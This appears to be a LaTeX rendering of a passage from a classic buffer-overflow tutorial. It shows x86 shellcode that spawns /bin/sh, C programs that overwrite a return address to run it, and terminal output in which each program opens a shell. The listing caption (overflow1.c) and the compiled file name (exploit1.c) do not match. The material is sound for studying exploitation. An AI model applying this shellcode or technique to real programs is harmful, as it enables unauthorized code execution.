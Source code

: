 \documentclass[10pt]{article}
\begin{document}
\begin{CJK}{UTF8}{bsmi}
And our new test program: testsc2.c 

\begin{lstlisting}[caption=testsc2.c,frame=single,frameround=tttt,breaklines=true]
char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";

void main() 
{
   int *ret;
   ret = (int *)&ret + 2;
   (*ret) = (int)shellcode;
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o testsc2 testsc2.c
[aleph1]$ ./testsc2
$ exit
[aleph1]$
\end{verbatim}

\section{Writing an Exploit}

Lets try to pull all our pieces together. We have the shellcode. We know it must be part of the string which 
we'll use to overflow the buffer. We know we must point the return address back into the buffer. This example 
will demonstrate these points:

\begin{lstlisting}[caption=overflow1.c,frame=single,frameround=tttt,breaklines=true]
char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";

char large_string[128];

void main() 
{
  char buffer[96];
  int i;
  long *long_ptr = (long *) large_string;

  for (i = 0; i < 32; i++)
    *(long_ptr + i) = (int) buffer;  

  for (i = 0; i < strlen(shellcode); i++)
    large_string[i] = shellcode[i];

  strcpy(buffer,large_string);
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o exploit1 exploit1.c
[aleph1]$ ./exploit1
$ exit
exit
[aleph1]$
\end{verbatim}


\end{CJK}
\end{document}
